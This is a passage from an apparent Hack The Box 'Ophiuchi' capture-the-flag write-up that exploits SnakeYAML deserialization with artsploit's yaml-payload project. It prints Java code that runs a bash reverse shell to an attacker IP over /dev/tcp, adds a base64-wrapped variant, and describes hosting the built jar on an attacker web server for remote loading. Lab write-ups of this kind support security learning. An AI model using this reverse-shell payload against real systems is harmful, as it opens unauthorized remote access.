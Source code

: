 
A quick search for "YAML parser vulnerability" leads us to "Snake YAML Deserilization" *[1](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)*.

![yaml_google](/posts/images/hack-the-box-ophiuchi-writeup/yaml_google.png)  
**Figure 2:** Snake YAML Deserilization Exploit.



# Exploitation  
## Initial foothold  
The SnakeYAML deserilization attack is made easier with artsploit's *[yaml-payload Github repository](https://github.com/artsploit/yaml-payload)* and an additional payload for a reverse shell can be found in *[issue 3](https://github.com/artsploit/yaml-payload/issues/3)*.

First, we'll clone the repository `git clone https://github.com/artsploit/yaml-payload.git`.  
![clone_repo](/posts/images/hack-the-box-ophiuchi-writeup/clone.png)
**Figure 3:** Clone yaml-payload repo.

We then navigate to `yaml-payload/src/artsploit` and modify the `AwesomeScriptEngineFactory()` method within `AwesomeScriptEngineFactory.java`. The default payload pops open the calculator application on MacOS. The payloads that are posted in *[issue 3](https://github.com/artsploit/yaml-payload/issues/3)* of this repo will call a reverse shell, so rather than recreating them, we'll drop the first payload into `AwesomeScriptEngineFactory.java` with our IP address as the callback.

```java
public AwesomeScriptEngineFactory() {
    String [] cmd={"bash","-c","bash -i >& /dev/tcp/10.10.14.3/8081 0>&1"};
    String [] jex={"bash","-c","{echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"};
    try {
        Runtime.getRuntime().exec(cmd);
        Runtime.getRuntime().exec(jex);
        Runtime.getRuntime().exec("echo $jex");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

![awesome_jar](/posts/images/hack-the-box-ophiuchi-writeup/awesome_jar.png)
**Figure 4:** Placing reverse shell payload into `AwesomeScriptEngineFactory.java`'s `AwesomeScriptEngineFactory()` method.  

Now, as instructed by the repository, we'll compile the `AwesomeScriptEngineFactory.java` file and build our `yaml-payload.jar` file.  

![build](/posts/images/hack-the-box-ophiuchi-writeup/build.png)  
**Figure 5:** Compiling Java exploit and building `yaml-payload.jar`.

Since the snippet we'll be placing into the web application will pull `yaml-payload.jar` from a remote url, we'll copy the payload to our apache directory and make sure the server is running.
